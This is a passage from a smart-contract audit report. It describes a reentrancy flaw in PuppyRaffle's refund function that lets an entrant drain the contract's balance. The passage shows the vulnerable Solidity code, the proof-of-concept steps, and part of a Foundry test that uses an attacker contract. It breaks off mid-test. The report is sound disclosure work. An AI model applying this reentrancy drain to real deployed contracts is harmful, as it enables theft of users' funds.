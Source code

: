 There are more attack vectors with that final require, so we recommend removing it regardless. 

## [H-2] Reentrancy attack in `PuppyRaffle::refund` allows entrant to drain raffle balance

### Description

The `PuppyRaffle::refund` function does not follow the CEI (Checks-Effects-Interactions) pattern and as a result, enables participants to drain the contract balance. 

In the `PuppyRaffle::refund` function, we first make an external call to the `msg.sender` address and only after making that external call do we update the `PuppyRaffle:players` array.

```solidity
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>  payable(msg.sender).sendValue(entranceFee);
@>  players[playerIndex] = address(0);

    emit RaffleRefunded(playerAddress);
}
```

A player who has entered the raffle could have a `fallback`/`receive` function that calls the `PuppyRaffle::refund` function again and claim another refund. They could continue the cycle until the contract balance is drained.

### Impact

All fees paid by raffle entrants could be stolen by the malicious participant.

### Proof of Concept

1. User enters the raffle
2. Attacker sets up a contract with a `receive` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the contract balance.

Place the following into the `PuppyRaffleTest` contract: 

```solidity
function test_reentrancyRefund() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;

    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attackUser = makeAddr("attackUser");
    vm.deal(attackUser, 1 ether);

    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingContractBalance = address(puppyRaffle).balance;

    vm.prank(attackUser);
    attackerContract.attack{value: entranceFee}();

    console.log("starting attacker contract balance: ", startingAttackContractBalance);
    console.log("starting contract balance: ", startingContractBalance);
    
```